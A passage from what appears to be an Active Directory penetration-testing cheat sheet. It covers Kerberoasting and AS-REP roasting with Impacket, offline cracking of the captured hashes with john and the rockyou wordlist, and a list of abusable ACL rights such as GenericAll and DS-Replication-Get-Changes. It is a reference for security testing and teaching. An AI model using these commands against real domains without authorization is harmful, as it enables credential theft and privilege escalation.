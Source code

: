#### Request in JtR/Hashcat format

```bash
GetUserSPNs.py -dc-ip <DC_IP> -request -outputfile hash.txt domain.local/user1:password
```

#### Crack the hash

```bash
john hash.txt --wordlist=./rockyou.txt
```

### AS-REP Roasting

* If a user's **UserAccountControl** settings have "Do not require Kerberos preauthentication" enabled -> Kerberos preauth is disabled -> it is possible to grab user's crackable AS-REP and brute-force it offline.
* With sufficient rights (**GenericWrite** or **GenericAll**), Kerberos preauth can be disabled.

#### Enumerate users

```bash
GetNPUsers.py -dc-ip <DC_IP> domain.local/user1:password
```

#### Request AS-REP

```bash
GetNPUsers.py -dc-ip <DC_IP> -request -format john domain.local/user1:password
```

#### Crack the hash

With **john** or **hashcat** it could be performed

### ACLs Attacks

#### ACLs packages

* **Owns object**
  * WriteDacl
* **GenericAll**
  * GenericWrite
  * AllExtendedRights
  * WriteOwner
* **GenericWrite**
  * Self
  * WriteProperty
* **AllExtendedRights**
  * User-Force-Change-Password
  * DS-Replication-Get-Changes
  * DS-Replication-Get-Changes-All
  * DS-Replication-Get-Changes-In-Filtered-Set

#### On any objects
